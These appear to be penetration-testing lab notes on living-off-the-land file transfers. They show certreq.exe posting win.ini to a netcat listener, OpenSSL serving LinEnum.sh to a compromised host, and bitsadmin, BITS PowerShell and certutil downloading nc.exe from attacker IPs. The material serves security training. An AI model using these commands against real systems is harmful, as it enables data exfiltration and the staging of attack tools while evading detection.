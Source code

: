 # LOLBAS

To search for download and upload functions in [LOLBAS](https://lolbas-project.github.io/) we can use `/download` or `/upload`.

#### [CertReq.exe](https://lolbas-project.github.io/lolbas/Binaries/Certreq/) as an example

We need to listen on a port on our attack host for incoming traffic using Netcat and then execute certreq.exe to upload a file.

Upload win.ini to our Pwnbox:

```cmd-session
C:\htb> certreq.exe -Post -config http://192.168.49.128/ c:\windows\win.ini
```

File Received in our Netcat Session:
```shell-session
Wildland4958@htb[/htb]$ sudo nc -lvnp 80

listening on [any] 80 ...
connect to [192.168.49.128] from (UNKNOWN) [192.168.49.1] 53819
POST / HTTP/1.1
Cache-Control: no-cache
Connection: Keep-Alive
Pragma: no-cache
Content-Type: application/json
User-Agent: Mozilla/4.0 (compatible; Win32; NDES client 10.0.19041.1466/vb_release_svc_prod1)
Content-Length: 92
Host: 192.168.49.128

; for 16-bit app support
[fonts]
[extensions]
[mci extensions]
[files]
[Mail]
MAPI=1
```

# GTFOBins

To search for the download and upload function in [GTFOBins for Linux Binaries](https://gtfobins.github.io/), we can use `+file download` or `+file upload`.

Let's use [OpenSSL](https://www.openssl.org/). It's frequently installed and often included in other software distributions, with sysadmins using it to generate security certificates, among other tasks. OpenSSL can be used to send files "nc style."

We need to create a certificate and start a server in our Pwnbox.

Create Certificate in our Pwnbox:
```shell-session
Wildland4958@htb[/htb]$ openssl req -newkey rsa:2048 -nodes -keyout key.pem -x509 -days 365 -out certificate.pem
```

Stand up the Server in our Pwnbox:
```shell-session
Wildland4958@htb[/htb]$ openssl s_server -quiet -accept 80 -cert certificate.pem -key key.pem < /tmp/LinEnum.sh
```

Download File from the Compromised Machine:
```shell-session
Wildland4958@htb[/htb]$ openssl s_client -connect 10.10.10.32:80 -quiet > LinEnum.sh
```

# Other Common Living off the Land tools

## BITS

The [Background Intelligent Transfer Service (BITS)](https://docs.microsoft.com/en-us/windows/win32/bits/background-intelligent-transfer-service-portal) can be used to download files from HTTP sites and SMB shares. It "intelligently" checks host and network utilization into account to minimize the impact on a user's foreground work.

File Download with Bitsadmin:
```powershell-session
PS C:\htb> bitsadmin /transfer wcb /priority foreground http://10.10.15.66:8000/nc.exe C:\Users\htb-student\Desktop\nc.exe
```

PowerShell also enables interaction with BITS, enables file downloads and uploads, supports credentials, and can use specified proxy servers.

Download:
```powershell-session
PS C:\htb> Import-Module bitstransfer; Start-BitsTransfer -Source "http://10.10.10.32/nc.exe" -Destination "C:\Windows\Temp\nc.exe"
```

## Certutil

Available in all Windows versions, the Antimalware Scan Interface (AMSI) currently detects this as malicious Certutil usage.

Download a File with Certutil:
```cmd-session
C:\htb> certutil.exe -verifyctl -split -f http://10.10.10.32/nc.exe
```
